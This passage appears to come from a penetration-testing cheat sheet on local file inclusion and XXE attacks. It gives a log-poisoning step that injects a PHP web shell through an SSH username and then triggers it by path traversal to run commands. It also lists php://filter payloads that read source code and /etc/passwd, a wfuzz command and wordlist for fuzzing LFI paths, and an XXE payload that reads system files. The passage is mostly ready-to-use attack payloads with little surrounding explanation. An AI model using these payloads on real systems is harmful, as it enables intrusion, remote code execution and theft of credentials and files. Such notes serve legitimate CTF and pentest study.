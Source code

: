 If you can find files which you can poison like `/var/logs/auth.log` you can do this by connecting to SSH like this `ssh '<?php system($_GET['c']); ?>'@$ip` then do `http://$ip/../../var/logs/auth.log?c=whoami` to get RCE

```
https://www.hackingarticles.in/ha-natraj-vulnhub-walkthrough/
```

### Useful LFI list <a href="#useful-lfi-list" id="useful-lfi-list"></a>

a big list of useful lfi paths

you might have to customise this list - for example if wordpress is located in /blog/ directory edit the top line of this file to `/var/www/html/blog/wp-config.php`

edit the file to include what file your searching for eg

`grep resource /scripts/useful/lfi.list php://filter/read=string.rot13/resource=index.php php://filter/convert.base64-encode/resource=index.php pHp://FilTer/convert.base64-encode/resource=index.php php://filter/convert.base64-encode/resource=../../../../../etc/passwd`

and possibly replace it with a resource you know, for example upload, if there is an `/upload.php` file

```
wget https://raw.githubusercontent.com/rowbot1/lfi.list/master/list.list
```

#### wfuzz <a href="#wfuzz" id="wfuzz"></a>

```
wfuzz -u "http://$ip/file.php?command=file://FUZZ" -w lfi.list
```

you might have to customise this list - for example if wordpress is located in /blog/ directory edit the top line of this file to /var/www/html/**blog**/wp-config.php

```
 https://github.com/rowbot1/lfi.list
```

## XXE <a href="#xxe" id="xxe"></a>

Complete all fields on the form. When the form is processed it might output what you added to the form - maybe one field. If it does this is the field to add the XXE part - "\&xxe;"![](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-LrwxKMzNxvaHYJ-OY10%2F-Lrx3RPd9bjsDod-I1Mn%2Fimage.png?alt=media\&token=f783336e-69fd-4b87-bc39-b26d5ca91d0c)

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><Version>        <email>&xxe;</email>​</Version>​
```
